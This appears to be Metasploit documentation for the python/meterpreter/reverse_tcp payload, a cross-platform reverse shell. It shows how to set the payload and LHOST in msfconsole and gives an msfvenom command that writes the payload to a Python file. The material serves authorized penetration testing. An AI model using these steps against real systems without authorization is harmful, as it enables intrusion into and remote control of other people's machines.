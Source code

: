 python/meterpreter/reverse_tcp allows you to remotely control the compromised system. It is a
unique payload to the Metasploit Framework, because it is cross-platform. And since Python is
a very popular programming language, some operating systems such as Ubuntu even support it
by default.

When using an exploit, using a cross-platform payload like python/meterpreter/reverse_tcp also
means you don't need to worry about which target/platform to select, the payload should work
for all of them.

## Vulnerable Application

The Python Meterpreter is suitable for any systems that support Python. Some operating
systems such as Ubuntu, Debian, Arch Linux, and OS X have it by default. The Python
Meterpreter supports the CPython implementation versions 2.5-2.7 and 3.1+.

## Deploying python/meterpreter/reverse_tcp

python/meterpreter/reverse_tcp is typically used in two different ways.

First, it can be used with an exploit as long as the Python platform is supported. This sort
of information can usually be found when you use the ```info``` command like this:

```
msf exploit(ms14_064_packager_python) > info

       Name: MS14-064 Microsoft Windows OLE Package Manager Code Execution Through Python
     Module: exploit/windows/fileformat/ms14_064_packager_python
   Platform: Python
 Privileged: No
    License: Metasploit Framework License (BSD)
       Rank: Excellent
  Disclosed: 2014-11-12

.... more info here ...
```

Or, you can check the exploit's target list by doing ```show targets```, there might be Python
on the list.

If your exploit supports Python, here is how to load it:

1. In msfconsole, select the exploit.
2. Configure the options for that exploit.
3. Do: ```set PAYLOAD python/meterpreter/reverse_tcp```
4. Set the ```LHOST``` datastore option, which is the [IP that the payload should connect to](https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-a-reverse-shell-in-metasploit.html).
5. Do ```exploit```. If the exploit is successful, it should execute that payload.

Another way to use the Python Meterpreter is to generate it as a Python file. Normally, you would
want to do this with msfvenom, like this:

```
./msfvenom -p python/meterpreter/reverse_tcp LHOST=[IP] LPORT=4444 -f raw -o /tmp/python.py
```

## Important Basic Commands
